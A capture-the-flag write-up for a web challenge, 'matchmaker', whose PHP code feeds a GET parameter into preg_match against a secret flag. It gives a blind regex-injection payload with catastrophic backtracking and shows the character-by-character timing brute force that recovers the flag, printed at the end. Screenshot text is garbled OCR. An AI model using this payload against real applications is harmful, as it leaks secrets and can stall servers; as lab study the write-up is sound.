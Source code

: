 # matchmaker
> Match making as a service.

## About the Challenge
We were given a website and inide the website there is source code. Here is the preview


[Image extracted text: Not secure
matchmaker-2 play hfsctf:12345
<Pphp
include
once( ' . /flag-php' ) ;
error_
reporting
highlight
file(_FILE_);
SstartTime
microtime
true
if ( !empty($_GET[ 'x' 1)) {
preg_match(
$_GET[ 'x'].
SFLAG,
Smatches) ;
SendTime
microtime
true) ;
SrunTime
SendTime
SstartTime
echo
"<br
>br
n>In
echo
<strong Exec
Time:< /strong>
SrunTime
<br
/ >n"
Exec Time: 9.5367431640625E-7]


And here is the code

```php
<?php

include_once('./flag.php');
error_reporting(0);
highlight_file(__FILE__);

$startTime = microtime(true);
if (!empty($_GET['x'])){
    preg_match('/'.$_GET['x'].'/', $FLAG, $matches);
}

$endTime = microtime(true);
$runTime = $endTime - $startTime;

echo "<br /><br />\n";
echo "<strong>Exec Time:</strong> ".$runTime."<br />\n";
```

The code then checks if the `$_GET['x']` parameter is set and if so, it uses it as a regular expression pattern to search for a match within the `$FLAG` variable that holds the flag. The resulting matches are then stored in the $matches array.

Finally, the code calculates the execution time of the script by measuring the difference between the current time `microtime(true)` before and after the regular expression matching process, and stores it in the `$runTime` variable. The execution time is then outputted along with a label.

This code is vulnerable to regex injection because we can set a custom regex pattern to find the flag. The execution time becomes slower if the pattern contains wrong characters, but if the pattern is correct, the execution time will be very fast.

## How to Solve?
To solve this, im using [porwsigger blog](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) as a reference about regex injection to spill the secret. So here is the regex I used to solve the chall

```
^(?=midnight{a)((.*)*)*salt$
```

So you need to brute each character (a-zA-Z0-9) and then check the `Exec Time output`. For example i tried to brute the character after `{`, in this case i will be comparing the 2 characters


[Image extracted text: 6
Not secure
matchmaker-Z playhfsctf:12345/x-^(?-midnight{a)((
*salt$
<Pphp
include
once( ' . /flag-php' ) ;
error_
reporting
highlight
file(_FILE_);
SstartTime
microtime
true
if ( !empty($_GET[ 'x' 1)) {
preg_match(
$_GET[ 'x'].
SFLAG,
Smatches) ;
SendTime
microtime
true) ;
SrunTime
SendTime
SstartTime
echo
"<br
>br
n>In
echo
<strong Exec
Time: < / strong>
SrunTime
<br
[ >In"
Exec Time: 5.9604644775391E-6]


As you can see the execution time was `5.9604...E-6`. And then I changed the `a` character to `r`


[Image extracted text: 6
7
Not secure
matchmaker-2play hfsctf:12345/x-^(?-midnight{r)(( *)*)*saltf
<Pphp
include_
once( '. /flag-php' ) ;
error_reporting(0) _
highlight_filel_FILE_) ;
SstartTime
microtime(true) ;
if
!empty
GET[ 'x' 1)) {
preg_
match(
GET[
x']'/'
SFLAG ,
Smatches)
SendTime
microtime
true
SrunTime
SendTime
SstartTime;
echo
<br
>br
f>n"
echo
<strong
Exec Time:< / strong>
SrunTime
<br
[ AIn"
Exec Time: 0.00478196144104]


As you can see the execution time was `0.00478...`. So we know the character after `{` is `r`. Repeat the step to obtain the flag


[Image extracted text: k 
Not secure
matchmaker
play hfsctf:12345/x =
'=midnight{r3gExpErt153_In_m47Chm4KIngH)(( =
#J*salt$
<?php
include_
once( ' . /flag.php' ) ;
error
reporting
0 ) ;
highlight_file
FILE_);
SstartTime
microtime
true
if
( !empty($_
GET[ 'x'1))-
preg_match(' / "
$_GET[
x'].'/'
SFLAG, Smatches) ;
SendTime
microtime
true
SrunTime
SendTime
SstartTime_
echo
<br
[xbr
f >n"
echo
"strong Exec Time:< / strong>
SrunTime
"<br
[>n
Exec Time: 0.035640001296997]


```
midnight{r3gExpErt153_1n_m47chm4K1ng}
```